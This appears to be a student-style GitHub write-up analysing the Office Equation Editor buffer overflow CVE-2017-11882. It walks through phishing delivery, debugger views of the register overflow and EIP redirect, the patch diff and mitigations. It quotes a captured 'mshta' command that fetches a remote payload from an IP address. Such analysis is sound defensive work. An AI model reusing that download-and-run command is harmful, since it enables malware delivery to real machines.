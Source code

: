 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
![CVSS](https://github.com/tingsama/hacking-p2/blob/main/CVSS.png)  
Figure 1:  CVSS score [1]


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
![Spam Email](https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png)


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
It is used to monitor and display all the activities of file system in real-time. [1](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Process Monitor](https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png)  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Burp Suite](https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png)  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside.  
![step 1](https://github.com/tingsama/hacking-p2/blob/main/step%201.png)  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
![step 2](https://github.com/tingsama/hacking-p2/blob/main/step%202.png)  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
![step 3-1](https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png)  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
![step 3-2](https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png)  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
![step 4](https://github.com/tingsama/hacking-p2/blob/main/step%204.png)  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
![step 5](https://github.com/tingsama/hacking-p2/blob/main/step%205.png)  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
![step 6](https://github.com/tingsama/hacking-p2/blob/main/step%206.png)  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]
![Update Registry](https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png)  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]
![Official Patc](https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png)  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### Reference:  
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].  
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].  
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.  
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.  
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
